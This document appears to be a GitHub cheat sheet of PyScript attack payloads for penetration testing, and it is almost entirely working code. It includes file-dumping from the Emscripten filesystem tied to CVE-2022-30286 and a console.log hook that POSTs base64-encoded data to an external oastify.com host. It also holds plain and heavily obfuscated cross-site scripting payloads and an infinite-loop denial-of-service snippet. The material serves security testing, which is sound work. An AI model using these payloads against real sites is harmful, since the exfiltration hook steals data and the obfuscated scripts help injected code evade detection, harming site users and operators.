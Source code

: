 # PyScript Pentesting Guide
PyScript is a new framework developed for integrating Python in the HTML so, it can be used alongside HTML. In this cheat sheet you'll find how to use the PyScript for your penetration testing purposes.

## Dumping / Retrieving files from the Emscripten virtual memory filesystem:
<small>`CVE ID: CVE-2022-30286`</small>
<br><br>
Code:
```
<py-script>
        with open('/lib/python3.10/site-packages/_pyodide/_base.py', 'r') as fin:
        out = fin.read()
        print(out)
</py-script>
```

Result:

![image](https://user-images.githubusercontent.com/66295316/166847974-978c4e23-05fa-402f-884a-38d91329bac3.png)

## [OOB Data Exfiltration of the Emscripten virtual memory filesystem (console monitoring)](https://cyber-guy.gitbook.io/cyber-guy/blogs/the-art-of-vulnerability-chaining-pyscript)
<small>`CVE ID: CVE-2022-30286`</small>
<br><br>
Code:
```
   <py-script>
x = "CyberGuy"
if x == "CyberGuy":
    with open('/lib/python3.10/asyncio/tasks.py') as output:
        contents = output.read()
        print(contents)
print('<script>console.pylog = console.log; console.logs = []; console.log = function(){     console.logs.push(Array.from(arguments));     console.pylog.apply(console, arguments);fetch("http://9hrr8wowgvdxvlel2gtmqbspigo8cx.oastify.com/", {method: "POST",headers: {"Content-Type": "text/plain;charset=utf-8"},body: JSON.stringify({"content": btoa(console.logs)})});}</script>')
   </py-script>
```

Result:

![image](https://user-images.githubusercontent.com/66295316/166848198-49f71ccb-73cf-476b-b8f3-139e6371c432.png)

## Cross Site Scripting (Ordinary)

Code:
```
<py-script>
        print("<img src=x onerror='alert(document.domain)'>")
</py-script>
```

Result:

![image](https://user-images.githubusercontent.com/66295316/166848393-e835cf6b-992e-4429-ad66-bc54b98de5cf.png)

## Cross Site Scripting (Python Obfuscated)

Code:
```
<py-script>
sur = "\u0027al";fur = "e";rt = "rt"
p = "\x22x$$\x22\x29\u0027\x3E"
s = "\x28";pic = "\x3Cim";pa = "g";so = "sr"
e = "c\u003d";q = "x"
y = "o";m = "ner";z = "ror\u003d"

print(pic+pa+" "+so+e+q+" "+y+m+z+sur+fur+rt+s+p)
</py-script>
```

Result:

![image](https://user-images.githubusercontent.com/66295316/166848370-d981c94a-ee05-42a8-afb8-ccc4fc9f97a0.png)

## Cross Site Scripting (JavaScript Obfuscation)

Code:
```
<py-script>
   print("<script>var _0x3675bf=_0x5cf5;function _0x5cf5(_0xced4e9,_0x1ae724){var _0x599cad=_0x599c();return _0x5cf5=function(_0x5cf5d2,_0x6f919d){_0x5cf5d2=_0x5cf5d2-0x94;var _0x14caa7=_0x599cad[_0x5cf5d2];return _0x14caa7;},_0x5cf5(_0xced4e9,_0x1ae724);}(function(_0x5ad362,_0x98a567){var _0x459bc5=_0x5cf5,_0x454121=_0x5ad362();while(!![]){try{var _0x168170=-parseInt(_0x459bc5(0x9e))/0x1*(parseInt(_0x459bc5(0x95))/0x2)+parseInt(_0x459bc5(0x97))/0x3*(-parseInt(_0x459bc5(0x9c))/0x4)+-parseInt(_0x459bc5(0x99))/0x5+-parseInt(_0x459bc5(0x9f))/0x6*(parseInt(_0x459bc5(0x9d))/0x7)+-parseInt(_0x459bc5(0x9b))/0x8*(-parseInt(_0x459bc5(0x9a))/0x9)+-parseInt(_0x459bc5(0x94))/0xa+parseInt(_0x459bc5(0x98))/0xb*(parseInt(_0x459bc5(0x96))/0xc);if(_0x168170===_0x98a567)break;else _0x454121['push'](_0x454121['shift']());}catch(_0x5baa73){_0x454121['push'](_0x454121['shift']());}}}(_0x599c,0x28895),prompt(document[_0x3675bf(0xa0)]));function _0x599c(){var _0x34a15f=['15170376Sgmhnu','589203pPKatg','11BaafMZ','445905MAsUXq','432bhVZQo','14792bfmdlY','4FKyEje','92890jvCozd','36031bizdfX','114QrRNWp','domain','3249220MUVofX','18cpppdr'];_0x599c=function(){return _0x34a15f;};return _0x599c();}</script>")
 </py-script>
```

Result:

![image](https://user-images.githubusercontent.com/66295316/166848442-2aece7aa-47b5-4ee7-8d1d-0bf981ba57b8.png)

## DoS attack (Infinity loop)

Code:
```
    <py-script>
      while True:
         print("&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;")
   </py-script>
```

Result:

![image](https://user-images.githubusercontent.com/66295316/166848534-3e76b233-a95d-4cab-bb2c-42dbd764fefa.png)
